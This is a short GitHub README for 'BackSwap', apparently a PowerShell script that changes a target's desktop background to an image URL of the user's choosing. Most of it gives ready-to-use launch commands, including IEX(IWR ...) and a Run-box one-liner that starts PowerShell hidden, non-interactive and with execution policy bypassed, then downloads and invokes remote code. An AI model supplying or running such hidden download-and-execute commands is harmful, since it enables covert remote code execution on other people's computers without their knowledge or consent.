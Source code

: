 # BackSwap
Made by VBV11

# How to add ur own image

Go to BS.ps1 and change the `"UR OWN IMAGE URL"`

![image](https://github.com/VBV11/BackSwap/assets/104235290/ed41590e-4542-44e4-a2b9-cb9e2bd77571)




# One line command in powershell

(Change the URL to ur own URL of the code) 

+ IEX(IWR `URL`)

EXAMPLE

IEX(IWR https://raw.githubusercontent.com/VBV11/BackSwap/main/BS.ps1)

![image](https://github.com/VBV11/BackSwap/assets/104235290/013ead12-596d-47a9-8cec-05ba71834d2d)


# Run box command

(Change the URL to ur own URL of the code) 

+ powershell -w h -NoP -NonI -Exec Bypass $pl = iwr `URL`?dl=1; invoke-expression $pl

EXAMPLE

powershell -w h -NoP -NonI -Exec Bypass $pl = iwr https://raw.githubusercontent.com/VBV11/BackSwap/main/BS.ps1?dl=1; invoke-expression $pl

![image](https://github.com/VBV11/BackSwap/assets/104235290/e79c7083-6a1a-432f-aa79-9c666d991143)


